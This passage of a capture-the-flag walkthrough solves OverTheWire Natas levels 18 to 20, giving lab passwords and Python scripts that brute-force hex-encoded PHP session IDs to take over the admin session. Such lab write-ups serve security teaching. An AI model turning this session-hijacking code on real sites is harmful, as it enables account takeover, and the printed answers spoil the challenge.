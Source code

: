 ```python
    if "You are logged in as a regular user" not in response.text:
        print(f"\n[✅] Admin PHPSESSID is: {i}")
        break
```
![Screenshot image](/images/posts/natas_level_18_to_19.png)

4. Step 4 - Use `PHPSESSID = 119` to the `cookie` of the browser to get the password.
5. Step 5 - Take the password to the next level.

**Next Level Password**

`tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr`

---

## Natas Level 19 → Level 20
(Updated: 16 August 2025)

**Credentials**
- **Username:** `natas19`
- **Password:** `tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr`

**Connection**

Level url: [http://natas19.natas.labs.overthewire.org/](http://natas19.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - Try login with account `Username: test`, `Password: test`.
2. Step 2 - Open `Dev Tools -> Application -> Cookies` you can see that the browser has cookie: `PHPSESSID: 37342d74657374`.
3. Step 3 - Use [CyberChef](https://gchq.github.io/CyberChef) to decode that text `From Hex`. You get something like this `74-test`.
4. Step 4 - Now try login with account `Username: admin`, `Password: something`. Decode the text `From Hex`, get `344-admin`

**We can see that the ID has format `id-username` so now we can try different `ids` with `admin`**

5. Step 5 - Use the my `python` code to brute-force the `ids` and get the correct `hex_data`.
```python
import requests

url = "http://natas19.natas.labs.overthewire.org/index.php"
auth = ("natas19", "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr")

max_id = 640

for i in range(0, max_id + 1):
    value = f"{i}-admin"
    bytes_data = value.encode('utf-8')
    # Convert the bytes to a hexadecimal string
    hex_data = bytes_data.hex()
    
    cookie = f"PHPSESSID={hex_data}"

    headers = {'Cookie': cookie}

    print(f'[+] Getting {value}')
    response = requests.get(url, headers=headers, auth=auth)

    if "You are logged in as a regular user" not in response.text:
        print(f"\n[✅] Admin PHPSESSID is: {value} / Hex Data: {hex_data}")
        break
```
